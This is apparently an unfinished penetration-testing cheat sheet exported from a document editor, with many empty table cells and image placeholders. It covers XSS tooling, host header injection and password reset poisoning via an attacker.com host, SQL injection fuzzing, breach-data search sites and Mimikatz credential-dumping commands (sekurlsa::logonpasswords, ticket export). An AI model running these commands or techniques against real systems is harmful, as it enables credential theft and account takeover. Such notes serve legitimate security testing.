<p id="gdcalert430" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image430.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert431">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


                

<p id="gdcalert431" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image431.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert432">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


        * DOM Invader (en ouvrant le navigateur depuis BURP)
        * XSStrike (FUZZ)
* Test manuel :
    * Pour chaque sink trouvé, essayer d’observer si une injection est possible.
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
</table>


## 
API Testing


<table>
  <tr>
   <td>
<ul>

<li>GraphQL 
<ul>
 
<li>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


## 
Testing Browser Storage


<table>
  <tr>
   <td>
<ul>

<li>Look at LocalStaraoge, Sessionstorage, IndexedDB and Cookie to determine if there are sensitive data
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>The code handling of the storage objects should be examined for possibilities of injection attacks.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


## 
Testing Web Messaging


<table>
  <tr>
   <td>
<ul>

<li>….
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>…..
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


## 
Testing for Cross Site Script Inclusion


<table>
  <tr>
   <td>
<ul>

<li>….
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>…..
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


## 
Testing for Host Header Injection


A web server commonly hosts several web applications on the same IP address, referring to each application via the virtual host. In an incoming HTTP request, web servers often dispatch the request to the target virtual host based on the value supplied in the Host header.


<table>
  <tr>
   <td>
<ul>

<li>In general, this attack is based on the situation when the Host header is being parsed and used dynamically in the application (in the code). 
    Example :
<p>

    

<p id="gdcalert432" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image432.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert433">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p>

    

<p id="gdcalert433" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image433.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert434">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<ul>

<li>Initial testing is as simple as supplying another domain (i.e. attacker.com).
<p>

    The attack is valid when the web server processes the input to send the request to an attacker-controlled host that resides at the supplied domain, and not to an internal virtual host that resides on the web server.
<p>

    Some intercepting proxies derive the target IP address from the Host header directly, which makes this kind of testing all but impossible
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>X-Forwarded Host Header Bypass :
    

<p id="gdcalert434" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image434.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert435">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p>

    X-Forwarded-Host, Forwarded, X-HTTP-Host-Override, X-Forwarded-Server, X-Host
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Password Reset Poisoning
    It is common for password reset functionality to include the Host header value when creating password reset links that use a generated secret token.
<p>

    If the application processes an attacker-controlled domain to create a password reset link, the victim may click on the link in the email (by providing his email) and allow the attacker to obtain the reset token, thus resetting the victim’s password.
<p>

    

<p id="gdcalert435" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image435.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert436">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


## 
Testing for SQLi


<table>
  <tr>
   <td>
<ul>

<li>For SQL Injection Auth Bypass, test all payloads from a specific wordlist related to this situation with burp. (FUZZ)
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>For SQL Injection in general, try Time based directly for detection, from related wordlist. (FUZZ)
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


# Data Breach


## 
Search Engine


* Intelligence X -[ https://intelx.io](https://intelx.io)
* leakcheck -[ https://leakcheck.io](https://leakcheck.io)
* weleakinfo -[ https://weleakinfo.to](https://weleakinfo.to)
* leakpeek -[ https://leakpeek.com](https://leakpeek.com)
* snusbase -[ https://snusbase.com](https://snusbase.com)
* GlobaLeaks -[ https://www.globaleaks.org/](https://www.globaleaks.org/)
* Firefox Monitor -[ https://monitor.firefox.com/](https://monitor.firefox.com/)
* haveibeenpwned? -[ https://haveibeenpwned.com/](https://haveibeenpwned.com/)
* ScatteredSecrets -[ https://scatteredsecrets.com/](https://scatteredsecrets.com/)
* AmIBreched -[ https://amibreached.com](https://amibreached.com)
* Leak Lookup -[ https://leak-lookup.com](https://leak-lookup.com)
* Breach Checker -[ https://breachchecker.com](https://breachchecker.com)
* RSLookup -[ https://rslookup.com](https://rslookup.com)
* Breachdirectory -[ https://breachdirectory.org/](https://breachdirectory.org/)
* Avast -[ https://www.avast.com/hackcheck](https://www.avast.com/hackcheck)

 


# 
Windows Pentest


# Mimicatz 


<table>
  <tr>
   <td>Privilege check
   </td>
   <td>privilege::debug
   </td>
  </tr>
  <tr>
   <td>Log
   </td>
   <td>log logpath.log
   </td>
  </tr>
</table>


Sekurlsa


<table>
  <tr>
   <td>
   </td>
   <td>sekurlsa::logonpasswords
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>sekurlsa::logonPasswords full
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>sekurlsa::tickets /export
   </td>
  </tr>
</table>


Kerberos


<table>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>

